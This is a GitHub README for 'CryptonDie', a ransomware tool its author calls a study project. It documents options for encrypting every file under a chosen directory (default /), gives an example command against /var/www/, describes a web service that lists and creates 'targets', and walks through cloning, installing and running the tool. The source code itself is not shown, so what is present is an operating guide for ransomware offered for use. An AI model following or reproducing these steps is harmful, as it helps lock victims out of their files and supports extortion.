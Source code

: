 # CryptonDie

<p align="center">
  <h3 align="center">CryptonDie</h3>
  <p align="center">CryptonDie is a ransomware developed for study purposes.</p>

  <p align="center">
    <a href="https://twitter.com/zer0dxx">
      <img src="https://img.shields.io/badge/twitter-@zer0dxx-blue.svg">
    </a>
  </p>
</p>

<hr>

### Options

```text
    --key       key used to encrypt and decrypt files, default is random string(recommended)
    --dir       Home directory for the attack, default is /
    --encrypt   Encrypt all files
    --decrypt   Decrypt all files
    --verbose   Active verbose mode, default is False

Example:
    python3 cryptondie.py --dir /var/www/ --key 0123456789abcdef --encrypt --verbose

```

### Web service endpoints

```
GET   - /targets              - list all targets (returns in JSON format)
GET   - /targets/<target_id>  - list one target by id (returns in JSON format)
POST  - /target/<target_id>   - create new target
```

<hr>

## how to run this shit?

### Clonning repository

```
git clone https://github.com/zer0dx/cryptondie
```

### Install requirements

```
pip3 install -r requirements.txt
```

### Running web service

```
cd cryptondie/discovery
python3 service_discovery.py
```

### Running in Docker

```bash
docker build -t cryptondie .
docker run -it cryptondie /bin/bash
python cryptondie.py --web-service http://127.0.0.1:5000 --dir /var/www/ --encrypt --verbose
```

### which encryption is implemented?

```text
Advanced Encryption Standard
```

### Contact

```text
[+] Telegram:   @zer0dx
[+] Github:     https://github.com/zer0dx
[+] Twitter:    https://twitter.com/zer0dxx
[+] Blog:       https://zer0dx.github.io
```

<p align="center">
  <p align="center">chaos is order yet undeciphered.</p>
</p>
